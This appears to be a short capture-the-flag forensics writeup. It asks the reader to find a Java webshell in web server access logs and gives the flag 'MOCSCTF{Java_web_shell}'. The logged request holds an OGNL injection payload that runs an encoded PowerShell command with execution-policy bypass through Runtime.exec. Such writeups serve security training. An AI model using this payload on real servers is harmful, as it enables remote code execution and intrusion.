 # Writeup

Question: Do you find the shell?

1. Think about the java webshell and grep the keyword.

```
212.30.60.161 - - [09/Mar/2016:10:20:10] "GET /login.do HTTP/1.1" 200 47ms 7126 - python-requests/2.27.1
212.30.60.161 - - [09/Mar/2016:10:20:20] "GET /${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("powershell.exe -exec Bypass -noP -enco TU9DU0NURntqNHY0X3czYl81aDNsbF8yZmQwMTA3OTUyMzRkNTMzMDVlfQ==").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Response",#a))}/ HTTP/1.1" 302 595ms - - python-requests/2.27.1
```

> MOCSCTF{Java_web_shell}
